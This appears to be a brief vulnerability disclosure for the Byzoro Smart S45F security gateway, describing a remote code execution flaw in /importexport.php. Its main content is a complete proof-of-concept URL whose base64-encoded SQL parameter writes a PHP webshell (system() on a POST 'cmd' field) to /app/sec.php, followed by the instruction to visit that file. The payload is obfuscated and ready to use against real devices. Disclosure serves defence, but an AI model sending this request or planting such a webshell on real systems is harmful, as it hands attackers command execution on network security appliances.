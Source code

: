 The Smart S45F multi-service security gateway intelligent management platform has an rce injection vulnerability

official website:https://www.byzoro.com/

version:Smart S45F

Vulnerability location:/importexport.php

![WPS图片(1)](https://github.com/cugerQDHJ/cve/assets/46893950/794035f6-201f-49b5-852e-ebb0e92181a1)

Construct the POC and perform the download

https://ip:port/importexport.php?sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc2VjLnBocCc=&type=exportexcelbysql
![WPS图片(2)](https://github.com/cugerQDHJ/cve/assets/46893950/3fa29410-092a-4cbc-8d6f-13a39c3f280a)

Access /app/sec.php to get the webshell.

![WPS图片(3)](https://github.com/cugerQDHJ/cve/assets/46893950/44c6d2ed-39da-49ea-8944-520f58dd0cce)
